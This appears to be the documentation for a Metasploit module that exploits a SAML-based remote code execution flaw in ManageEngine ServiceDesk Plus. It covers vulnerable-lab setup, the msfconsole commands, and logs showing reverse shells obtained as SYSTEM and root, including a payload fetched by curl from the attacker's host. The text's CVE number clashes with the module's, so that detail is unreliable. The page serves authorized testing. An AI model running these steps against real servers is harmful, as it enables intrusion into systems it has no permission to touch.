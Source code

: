 ## Vulnerable Application

This exploits an unauthenticated remote code execution vulnerability that
affects Zoho ManageEngine ServiceDesk Plus versions 14003 and below
(CVE-2020-0646). Due to a dependency to an outdated library (Apache Santuario
version 1.4.1), it is possible to execute arbitrary code by providing a crafted
`samlResponse` XML to the ServiceDesk Plus SAML endpoint. Note that the target
is only vulnerable if it has been configured with SAML-based SSO at least once
in the past, regardless of the current SAML-based SSO status.


## Installation

### SAML 2.0 Identity Provider
If you don't have an already SAML 2.0 Identity Provider (IdP), you can use this
free one for testing: https://mocksaml.com/

Save the certificate to a local file (e.g. `cert.cer`) and take note of the SSO
URL (`https://mocksaml.com/api/saml/sso`).

### Download the installers
Go to https://archives.manageengine.com/, fill the form with any data and
select ServiceDesk Plus product with any version (e.g. `14003`). You can then
have access to all the versions and platform installers.

### Windows
1. Launch the Windows installer and select all the default options by clicking
   `Next` (you can skip the Registration for Technical Support part, it is
   optional). When the installation is done, select `Start ServiceDesk Server`
   and click `Finish`
1. Go to `C:\Program Files\ManageEngine\ServiceDesk\bin\` and run `SDPLaunch`.
   This will start a browser and get you to the login page.

### Linux (Ubuntu)
1. Make the installer executable executing `chmod +x <linux_installer>.bin`
1. Launch the Linux installer as root, select all the default options by
   clicking `Next` until you reach the installation path page.
1. Change the installation path to somewhere else than under `/root/` (it
   doesn't work with this default path) and finish the installation. You might
   get an error 'Problem in initializing Postgres', just ignore it, click `OK`
   and finish the installation. We'll fix this in the next step.
1. If you got the `Postgres` error in the last step, go to the installation
   base path (e.g. '/opt/ManageEngine/ServiceDesk/') and run the following
   commands as root:
    - `cp tools/postgres/bin/gettimezone tools/postgres/bin/gettimezone_32`
    - `cp tools/postgres/bin/gettimezone_64 tools/postgres/bin/gettimezone`
    - `cd bin`
    - `./initPgsql.sh`
1. Start the server running `run.sh`

### Enable SAML 2.0 SSO
1, Go to `http://localhost:8080`
1. Select `Log in as` `Administrator`.
1. Go to `http://localhost:8080/app#/admin` and click on `SAML Single Sign On`
   in the `​​Users & Permission` section.
1. In `Configure Identity Provider Details`, set the SSO URL from the IdP (e.g.
   `https://mocksaml.com/api/saml/sso`), set the `Name ID Format` to
   `Unspecified`, the `Algorithm` to `RSA_SHA1` and select the SiP certificate
   file (e.g. `cert.cer`).
1. In `Additional Claims` > `Default Fields`, set the `Login Name` to any
   value.
1. Click `Save`
1. Enable SSO by switching the `Enable SAML Single Sign-On ?` button on the top
   of the page.


## Verification Steps

1. Start msfconsole
1. Do: `use multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966`
1. Do: `exploit rhosts=<remote host IP> lhost=<local host IP>`
1. You should get a shell
1. Also test with other targets against Windows and Linux


## Options

### TARGETURI
The ServiceDesk Plus SAML endpoint URL. Set to `/SamlResponseServlet` by default.

### DELAY
This sets the number of seconds to wait between each request. It is
particularly useful when using a big payload with the `cmdstager` (Target 0),
which requires sending multiple requests to the target. ServiceDesk Plus has an
anti-DoS mechanism that blocks the source IP address if requests are sent too
fast. This option is set to 5 seconds by default, which seems to be a safe
value.


## Scenarios

### ServiceDesk Plus versions 14003 on Windows - Target 1 (`Windows Command`)
```
msf6 exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > exploit rhosts=192.168.100.104 lhost=192.168.100.1

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending stage (175686 bytes) to 192.168.100.104
[*] Meterpreter session 1 opened (192.168.100.1:4444 -> 192.168.100.104:51417) at 2023-01-26 12:07:43 +0100

meterpreter > sysinfo
Computer        : DESKTOP-26CQRHP
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### ServiceDesk Plus versions 14003 on Windows - Target 0 (`Windows EXE Dropper`)
```
msf6 exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > set target 0
target => 0
msf6 exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > exploit rhosts=192.168.100.104 lhost=192.168.100.1

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Command Stager progress -  17.01% done (2046/12025 bytes)
[*] Command Stager progress -  34.03% done (4092/12025 bytes)
[*] Command Stager progress -  51.04% done (6138/12025 bytes)
[*] Command Stager progress -  68.06% done (8184/12025 bytes)
[*] Command Stager progress -  84.24% done (10130/12025 bytes)
[*] Sending stage (200774 bytes) to 192.168.100.104
[*] Meterpreter session 2 opened (192.168.100.1:4444 -> 192.168.100.104:51435) at 2023-01-26 12:08:42 +0100
[*] Command Stager progress - 100.00% done (12025/12025 bytes)

meterpreter > sysinfo
Computer        : DESKTOP-26CQRHP
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### ServiceDesk Plus versions 14003 on Linux (Ubuntu) - Target 2 (`Unix Command`)
```
msf6 exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > set target 2
target => 2
msf6 exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > exploit rhosts=192.168.100.109 lhost=192.168.100.1

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending stage (24380 bytes) to 192.168.100.109
[*] Meterpreter session 1 opened (192.168.100.1:4444 -> 192.168.100.109:43062) at 2023-01-26 16:07:21 +0100

meterpreter > sysinfo
Computer        : ubuntu
OS              : Linux 5.15.0-58-generic #64~20.04.1-Ubuntu SMP Fri Jan 6 16:42:31 UTC 2023
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > getuid
Server username: root
```

### ServiceDesk Plus versions 14003 on Linux (Ubuntu) - Target 2 (`Unix Dropper`)
```
msf6 exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > set target 3
target => 3
msf6 exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > exploit rhosts=192.168.100.109 lhost=192.168.100.1

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Using URL: http://192.168.100.1:8080/55oyjyc1i
[*] Client 192.168.100.109 (curl/7.68.0) requested /55oyjyc1i
[*] Sending payload to 192.168.100.109 (curl/7.68.0)
[*] Sending stage (3045348 bytes) to 192.168.100.109
[*] Meterpreter session 2 opened (192.168.100.1:4444 -> 192.168.100.109:40138) at 2023-01-26 16:09:37 +0100
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.100.109
OS           : Ubuntu 20.04 (Linux 5.15.0-58-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
```

